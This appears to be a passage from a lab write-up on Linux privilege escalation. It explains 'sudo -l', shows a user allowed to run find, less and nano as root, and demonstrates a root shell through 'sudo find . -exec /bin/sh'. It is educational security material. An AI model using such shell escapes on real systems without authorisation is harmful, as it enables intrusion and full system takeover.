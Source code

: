 When you run "sudo -l", the system checks the sudoers file to determine what commands the current user is allowed to execute with elevated privileges. The sudoers file is typically located at "/etc/sudoers" or "/etc/sudoers.d/" and is usually edited with the "visudo" command, which provides a syntax check to prevent accidental errors. 
  
The output of "sudo -l" will show a list of allowed commands or rules for the current user, which can include: 
  
Specific commands: The user may have permission to run particular commands with elevated privileges. For example, the output may list commands like "sudo ls" or "sudo apt-get update." 
  
All commands: The user might have unrestricted access to execute any command with "sudo" privileges. 
  
No commands: In some cases, the user might not have any "sudo" privileges, and the output will indicate that there are no allowed commands. 
  
The purpose of "sudo -l" is to allow users to check their own sudo permissions without actually running any commands with elevated privileges. This is particularly useful for users to verify their level of access or when troubleshooting issues related to sudo permissions. 
  
![](https://miro.medium.com/v2/resize:fit:239/0*KF9LtQK_2J8D4ogc) 
  
By running sudo -l we can see all the binaries a user can do. we first run sudo -l 
  
Then we headed to *GTFO and search if one of the binaries can be used to maintain privilege 
  
<mcreference link="https://gtfobins.github.io/?source=post_page-----3fb61a09f7ba--------------------------------" index="2">2</mcreference>
  
```bash
$ sudo -l 
Matching Defaults entries for karen on ip-10–10–148–237: 
env_reset, mail_badpass, 
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin 
User karen may run the following commands on ip-10–10–148–237: 
(ALL) NOPASSWD: /usr/bin/find 
(ALL) NOPASSWD: /usr/bin/less 
(ALL) NOPASSWD: /usr/bin/nano 
``` 
  
![](https://miro.medium.com/v2/resize:fit:875/0*undka8G3SNnW9ZvA) 
  
```bash
karen@ip-10–10–58–234:/tmp/ldpreload$ whoami 
karen 
karen@ip-10–10–58–234:/tmp/ldpreload$ id 
uid=1001(karen) gid=1001(karen) groups=1001(karen) 
karen@ip-10–10–58–234:/tmp/ldpreload$ sudo find . -exec /bin/sh \; -quit 
# whoami 
root 
# id 
uid=0(root) gid=0(root) groups=0(root) 
```

# **3. programs with setuid bit on** 
  